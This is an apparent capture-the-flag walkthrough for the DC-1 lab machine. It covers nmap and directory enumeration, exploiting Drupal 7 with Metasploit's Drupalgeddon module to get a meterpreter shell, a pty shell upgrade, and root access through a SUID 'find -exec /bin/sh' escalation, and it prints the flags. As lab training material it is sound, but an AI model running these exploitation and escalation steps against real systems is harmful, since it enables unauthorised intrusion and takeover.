








# DC-1

### NMAP

```shell
nmap -sV -sC -T4 -p- -oN dc1 192.168.242.193  192.168.240.193
```

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ENUMERATION

#### rpc

```markdown
rpcinfo -p 192.168.242.193
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  53990  status
    100024    1   tcp  46232  status
                                       
```

#### http (port 80)

<figure><figcaption></figcaption></figure>

checking the robots.txt file

<figure><figcaption></figcaption></figure>

a full list of files is below

```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

**DIRECTORY TRANSVERSAL**

feroxbuster

```shell
feroxbuster -u http://192.168.240.193 -x html,php,txt
```

since we know that site its using **Drupal 7** from our nmap or when you check the source code, lets search for its exploits

<figure><figcaption></figcaption></figure>

#### checking for exploits with msfconsole

```shell
search Drupal 7
```

<figure><figcaption></figcaption></figure>

Now i tried on the first exploits, they didn't work then i tried the second exploit and it worked for me well

```shell
1. use exploit/multi/http/drupal_drupageddon
2. show options
```

<figure><figcaption></figcaption></figure>

Now you have to set the **RHOSTS** to our target machine , we set the **LHOST** which our attack machine and the **LPORT** which is our listening port, since our website is running direct on port 80 which is our root, we don't need to change the **TARGETURI**

<figure><figcaption></figcaption></figure>

Now our payload is delivered successfully and the meterpreter is started, with just a **shell** command we get access to our machine terminal. After getting access to our machine i had to check if it has python installed so that is elevate to a unrestricted shell.

```shell
1. which python
2. python 'import pty;pty.spwan("/bin/bash")'
```

<figure><figcaption></figcaption></figure>

we find our first flag when we enter in out **/home** directory

```shell
cat flag.txt
```

flag

```markdown
a0db6e93743d9477744b9c4084c6aa14
```

### privilege escalation

After finding our first flag we have have to see how we can elevate our privileges I tried to download **linpeas** to a victim machine but i never had permission so i tried another way which is finding the **SUID**

```shell
find / -user root -perm /4000 2>/dev/null
```

<figure><figcaption></figcaption></figure>

in the list give i happen to see find and to check it on **GTFOBins** i found a shell command that can give me the root shell [find-GTFOBin](https://gtfobins.github.io/gtfobins/find/#shell)

```shell
find . -exec /bin/sh \; -quit
```

After getting acces to a root machine we find the final flag in the **/root** path

<figure><figcaption></figcaption></figure>

```markdown
1. cat proof.txt
	dd4bb4fc19607a2d17da212ef2646b07
```

machine successfully hacked.
